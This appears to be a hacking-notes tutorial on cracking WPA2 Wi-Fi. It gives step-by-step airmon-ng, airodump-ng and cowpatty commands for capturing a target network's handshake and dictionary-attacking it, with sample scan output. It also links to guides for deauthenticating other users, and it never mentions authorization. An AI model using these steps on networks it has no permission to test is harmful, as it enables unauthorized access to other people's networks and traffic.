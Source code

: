 # Wifi

There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. [http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/](http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/)

This is a great guide to the many different ways to hack wifi.

### Checking what networks are avalible

`sudo iwlist wlan0 scanning` - scans for wifis

### Hacking WPA2-wifis Using airmon-ng and cowpatty

What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng
   * `airmon-ng start wlan0`
   * This puts the network card in monitoring mode.
   * This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.
2. Run airodump to see what is passing through the air
   * Now we want to see what access points are available to us. 
   * `airodump-ng -i mon0`
   * This would output something like this:

```text
CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
```

So what is all this? `BSSID` - This is the mac-address of the access point. `PWR` - Signal strength. The higher \(closer to 0\) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal. `Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them. `#Data` - The number of data-packets that has been sent. `#/s` - Number of data-packets per second. `CH` - Channel `MB` - Maximum speed the AP can handle. `ENC` - Encryption type `CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2. `PSK` - The authentication protocol used. One of MGT \(WPA/WPA2 using a separate authentication server\), SKA \(shared key for WEP\), PSK \(pre-shared key for WPA/WPA2\), or OPN \(open for WEP\). `ESSID` - The name of the network

Then we have another section of information. `Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “\(not associated\)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

1. Find the network you want to access.
   * `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
   * So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. 

     Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake.

     We know that we have recorded a handshake when this appears

     `CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91`

     Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.
2. Crack the password.
3. Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.
4. `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81`

   Then we just hope for the best.

## More

Kicking other people off the network to capture handshakes faster: [http://www.aircrack-ng.org/doku.php?id=newbie\_guide](http://www.aircrack-ng.org/doku.php?id=newbie_guide)

[http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html](http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html)

[http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/](http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/)

